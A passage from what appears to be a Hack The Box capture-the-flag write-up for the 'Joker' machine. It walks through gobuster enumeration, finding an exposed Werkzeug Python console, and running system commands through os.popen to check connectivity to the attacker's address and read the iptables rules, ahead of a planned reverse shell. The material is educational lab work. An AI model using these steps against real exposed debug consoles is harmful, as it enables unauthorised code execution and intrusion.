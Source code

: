 Now our other commands like _cURL_ go through Burpsuite and reach the box.
Lets look for hidden paths and PHP pages with **Gobuster**:
```markdown
gobuster -u http://127.0.0.1 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

This will find the following paths:
- /list (Status: 301)
  - Lists the shortened URLs by Shorty
  - No shortened URLs in there
- /console (Status: 200)
  - Interactive Python Console

We are interested in the _/console_ page:

![Web console](https://kyuu-ji.github.io/htb-write-up/joker/joker_console.png)

### Getting a reverse shell

Lets see what we can do with this Interactive Python Console.
By importing **os** we can execute system commands:
```markdown
import os
os.popen("whoami").read()

'werkzeug\n'
```

We are the  user _werkzeug_ on this box and can try if we have a connection to my local machine with `ping` because starting a reverse shell with **Netcat** did not work:
```markdown
os.popen("ping -c 4 10.10.14.23 &").read()
```

The connection works, so lets read the **IPtables** configuration.
```markdown
os.popen("base64 -w 0 /etc/iptables/rules.v4").read()
```

We output it as a _Base64_ string because the console doesn't do line breaks and its easier to read when we convert the string.
```markdown
:INPUT DROP [41573:1829596]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [878:221932]
-A INPUT -i ens33 -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -i ens33 -p tcp -m tcp --dport 3128 -j ACCEPT
-A INPUT -i ens33 -p udp -j ACCEPT
-A INPUT -i ens33 -p icmp -j ACCEPT
-A INPUT -i lo -j ACCEPT
-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP
COMMIT
```

Summarizing the rules:
- _DROP_ every _INPUT_, when it does not have a rule
- _ACCEPT_ _INPUT_ from port 22, 3128, UDP ports, ICMP
